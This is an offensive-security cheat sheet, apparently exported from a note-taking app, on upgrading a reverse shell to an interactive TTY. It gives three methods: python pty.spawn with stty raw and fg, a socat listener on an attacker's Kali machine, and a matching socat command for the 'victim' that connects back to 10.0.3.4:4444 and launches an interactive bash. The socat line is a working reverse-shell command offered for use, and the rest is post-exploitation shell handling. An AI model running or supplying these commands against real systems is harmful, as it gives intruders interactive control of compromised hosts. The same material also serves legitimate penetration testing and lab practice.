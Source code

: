 # Get-interactive-TTYs
## method 1
# In reverse shell
```python
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```
# In Kali
```bash
$ stty raw -echo
$ fg
```
# In reverse shell
```bash
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
---
## method 2
**On Kali (listen)**:

<table class="lntable jop-noMdConv" style="box-sizing: border-box; border-spacing: 0px; border-collapse: collapse; background-color: transparent; padding: 0px; margin: 0px; border: 0px; width: auto; overflow: auto; display: block;"><tbody style="box-sizing: border-box;" class="jop-noMdConv"><tr style="box-sizing: border-box; border: none; background-color: #ffffff; margin: 0px; padding: 0px;" class="jop-noMdConv"><td class="lntd jop-noMdConv" style="box-sizing: border-box; padding: 0px; border: 0px; text-align: left; margin: 0px; vertical-align: top;"><pre class="chroma jop-noMdConv" style="box-sizing: border-box; overflow: hidden; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px; line-height: 1.42857; color: #f8f8f2; word-break: break-all; overflow-wrap: break-word; background-color: #272822; border: none; border-top-left-radius: 4px; border-top-right-radius: unset; border-bottom-right-radius: unset; border-bottom-left-radius: 4px;"><code style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; padding: 0px; color: inherit; background-color: transparent; border-radius: 0px; white-space: pre; margin-top: 0px; margin-bottom: 0px;" class=""><span class="lnt jop-noMdConv" style="box-sizing: border-box; margin-top: 0px; margin-bottom: 0px; margin-right: 0.4em; padding: 0px 0.4em; color: #7f7f7f;">1
</span></code></pre></td><td class="lntd jop-noMdConv" style="box-sizing: border-box; padding: 0px; border: 0px; text-align: left; margin: 0px; vertical-align: top;"><pre class="chroma jop-noMdConv" style="box-sizing: border-box; overflow: hidden; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px; line-height: 1.42857; color: #f8f8f2; word-break: break-all; overflow-wrap: break-word; background-color: #272822; border: none; border-radius: unset;"><code class="language-bash" data-lang="bash" style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; padding: 0px; color: inherit; background-color: transparent; border-radius: 0px; white-space: pre; margin-top: 0px; margin-bottom: 0px;">socat file:<span class="sb jop-noMdConv" style="box-sizing: border-box; margin-top: 0px; color: #e6db74;">`</span>tty<span class="sb jop-noMdConv" style="box-sizing: border-box; color: #e6db74;">`</span>,raw,echo<span class="o jop-noMdConv" style="box-sizing: border-box; color: #f92672;">=</span><span class="m jop-noMdConv" style="box-sizing: border-box; margin-bottom: 0px; color: #ae81ff;">0</span> tcp-listen:4444
</code></pre></td></tr></tbody></table>

**On Victim (launch)**:

<table class="lntable jop-noMdConv" style="box-sizing: border-box; border-spacing: 0px; border-collapse: collapse; background-color: transparent; padding: 0px; margin: 0px; border: 0px; width: auto; overflow: auto; display: block;"><tbody style="box-sizing: border-box;" class="jop-noMdConv"><tr style="box-sizing: border-box; border: none; background-color: #ffffff; margin: 0px; padding: 0px;" class="jop-noMdConv"><td class="lntd jop-noMdConv" style="box-sizing: border-box; padding: 0px; border: 0px; text-align: left; margin: 0px; vertical-align: top;"><pre class="chroma jop-noMdConv" style="box-sizing: border-box; overflow: hidden; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px; line-height: 1.42857; color: #f8f8f2; word-break: break-all; overflow-wrap: break-word; background-color: #272822; border: none; border-top-left-radius: 4px; border-top-right-radius: unset; border-bottom-right-radius: unset; border-bottom-left-radius: 4px;"><code style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; padding: 0px; color: inherit; background-color: transparent; border-radius: 0px; white-space: pre; margin-top: 0px; margin-bottom: 0px;" class=""><span class="lnt jop-noMdConv" style="box-sizing: border-box; margin-top: 0px; margin-bottom: 0px; margin-right: 0.4em; padding: 0px 0.4em; color: #7f7f7f;">1
</span></code></pre></td><td class="lntd jop-noMdConv" style="box-sizing: border-box; padding: 0px; border: 0px; text-align: left; margin: 0px; vertical-align: top;"><pre class="chroma jop-noMdConv" style="box-sizing: border-box; overflow: hidden; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px; line-height: 1.42857; color: #f8f8f2; word-break: break-all; overflow-wrap: break-word; background-color: #272822; border: none; border-radius: unset;"><code class="language-bash" data-lang="bash" style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; padding: 0px; color: inherit; background-color: transparent; border-radius: 0px; white-space: pre; margin-top: 0px; margin-bottom: 0px;">socat exec:<span class="s1 jop-noMdConv" style="box-sizing: border-box; margin-top: 0px; margin-bottom: 0px; color: #e6db74;">'bash -li'</span>,pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444</code></pre></td></tr></tbody></table>

---
## method 3

<table class="lntable jop-noMdConv" style="box-sizing: border-box; border-spacing: 0px; border-collapse: collapse; background-color: transparent; padding: 0px; margin: 0px; border: 0px; width: auto; overflow: auto; display: block;"><tbody style="box-sizing: border-box;" class="jop-noMdConv"><tr style="box-sizing: border-box; border: none; background-color: #ffffff; margin: 0px; padding: 0px;" class="jop-noMdConv"><td class="lntd jop-noMdConv" style="box-sizing: border-box; padding: 0px; border: 0px; text-align: left; margin: 0px; vertical-align: top;"><pre class="chroma jop-noMdConv" style="box-sizing: border-box; overflow: hidden; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px; line-height: 1.42857; color: #f8f8f2; word-break: break-all; overflow-wrap: break-word; background-color: #272822; border: none; border-radius: unset;"><code class="language-bash" data-lang="bash" style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; padding: 0px; color: inherit; background-color: transparent; border-radius: 0px; white-space: pre; margin-top: 0px; margin-bottom: 0px;">python -c <span class="s1 jop-noMdConv" style="box-sizing: border-box; margin-top: 0px; margin-bottom: 0px; color: #e6db74;">'import pty; pty.spawn("/bin/bash")'</span>
</code></pre></td></tr></tbody></table>
